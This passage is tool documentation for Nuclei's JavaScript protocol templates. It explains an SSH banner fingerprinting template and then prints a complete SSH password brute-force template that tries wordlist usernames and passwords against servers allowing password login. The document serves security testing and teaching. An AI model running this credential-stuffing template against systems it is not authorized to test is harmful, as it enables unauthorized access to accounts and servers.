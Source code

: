 In the Nuclei template example above, we are fingerprinting SSH server software by connecting in non-auth mode and extracting the server banner. Let’s break down the template.

### [​](#code-section)Code Section

The `code:` contains actual JavaScript code that is executed by Nuclei at runtime. In the above template, we are:

* Importing `nuclei/ssh` module/library
* Creating a new instance of `SSHClient` object
* Connecting to SSH server in `Info` mode
* Converting response to json

### [​](#args-section)Args Section

The `args:` section can be simply understood as variables in JavaScript that are passed at runtime and support DSL usage.

### [​](#output-section)Output Section

The value of the last expression is returned as the output of JavaScript protocol template and can be used in matchers and extractors. If the server returns an error instead, then the `error` variable is exposed in the matcher or extractor with an error message.

[​](#ssh-bruteforce-example)SSH Bruteforce Example
--------------------------------------------------

**SSH Password Bruteforce Template**

```
id: ssh-brute

info:
  name: SSH Credential Stuffing
  author: tarunKoyalwar
  severity: critical
  

javascript:
  - pre-condition: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      var response = c.ConnectSSHInfoMode(Host, Port);
      // only bruteforce if ssh server allows password based authentication
      response["UserAuth"].includes("password")

    code: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      c.Connect(Host,Port,Username,Password);

    args:
      Host: "{{Host}}"
      Port: "22"
      Username: "{{usernames}}"
      Password: "{{passwords}}"

    threads: 10
    attack: clusterbomb
    payloads:
      usernames: helpers/wordlists/wp-users.txt
      passwords: helpers/wordlists/wp-passwords.txt

    stop-at-first-match: true
    matchers:
      - type: dsl
```
